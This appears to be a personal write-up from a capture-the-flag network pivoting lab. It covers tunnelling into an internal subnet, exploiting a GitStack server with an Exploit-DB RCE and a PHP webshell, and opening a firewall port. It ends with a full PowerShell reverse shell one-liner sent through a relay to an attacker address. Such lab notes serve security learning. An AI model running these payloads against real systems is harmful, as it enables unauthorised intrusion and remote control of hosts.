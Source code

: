 
See [[03 - enumeration 02]]

---

We can use sshuttle to create a tunnel to our next target @ **10.200.100.150:80**

`sshuttle -r root@10.200.100.200 --ssh-cmd "ssh -i id_rsa" 10.200.100.0/24`

We can now access http://10.200.100.150

This page reveals that it is running **gitstack**

___

We search in exploit db for gitstack and find the following RCE:

https://www.exploit-db.com/exploits/43777

We can copy this exploit to our machine
`searchsploit -m 43777`

**A common issue with exploit db scripts are the line endings. They need to be converted to unix line endings**

`dos2unix ./43777.py`

---

You can edit the **command** field in the script to send a reverse shell. But if we look closer at the last 6 lines of code...

We see it creates a PHP webshell 
```php
<?php system($_POST['a']); ?>
```

and echos it into a file called **exploit.php** under the webroot.
This can be access by posting a command to the newly created /web/exploit.php file

We can exploit this via cURL:

`curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`

Or through burpsuite by using repeater. Here is an example:

```post
POST /web/exploit-k.php HTTP/1.1
Host: gitserver.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=8fIXpM3hjzaS9K5qdiztvTjrY2CW2DFA; sessionid=7c7f16ab0abe63010d960ed76f54b6e8
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

a=whoami
```

Let's try to ping to our machine to see if we can send outbound traffic

Set up  tcpdump on our box
`tcpdump -i tun0 icmp`
Try to ping it from the box
`ping -n 3 ATTACKING_IP`

Nothing gets sent. Now we have two options.

-   Given we have a fully stable shell on .200, we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) and just catch the shell here
-   We could set up a relay on .200 to forward a shell back to a listener

---

Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:  
`firewall-cmd --zone=public --add-port PORT/tcp`  
Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the protocol we want to use (TCP).

---

Now we set up our reverse shell relay

[[Reverse Shell Relay]]

We then send this to the a= command in burpsuite. Replacing IP with 10.200.84.200 and PORT with the port we opened on .200

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


Proceed to [[Foothold 02]]
